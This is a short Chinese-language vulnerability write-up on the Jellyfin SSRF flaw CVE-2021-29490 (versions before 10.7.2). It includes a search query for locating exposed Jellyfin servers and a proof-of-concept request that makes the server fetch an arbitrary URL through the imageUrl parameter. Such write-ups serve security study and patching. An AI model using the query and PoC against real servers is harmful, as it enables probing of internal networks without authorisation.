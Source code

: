 # 

# Jellyfin RemoteImageController.cs SSRF漏洞 CVE-2021-29490

## 漏洞描述

Jellyfin RemoteImageController.cs 文件中存在SSRF漏洞，通过构造特殊的请求，探测内网信息

## 漏洞影响

```
Jellyfin < 10.7.2
```

## 网络测绘

```
app="Jellyfin"
```

## 漏洞复现

在官方的更新文件中，查找到修改的文件

![](./images/202205241459343.png)

官方删除了某个方法

```
function getDisplayUrl(url, apiClient) {
        return apiClient.getUrl('Images/Remote', { imageUrl: url });
    }
```

下载漏洞版本源码，查找该接口对应的文件

```
Jellyfin.Api/Controllers/RemoteImageController.cs
```

![](./images/202205241459044.png)

其中接收的参数为 imageUrl ，后续的代码片段存在SSRF漏洞

![](./images/202205241459542.png)

构造请求POC

```
/Images/Remote?imageUrl=http://www.baidu.com
```

![](./images/202205241459712.png)
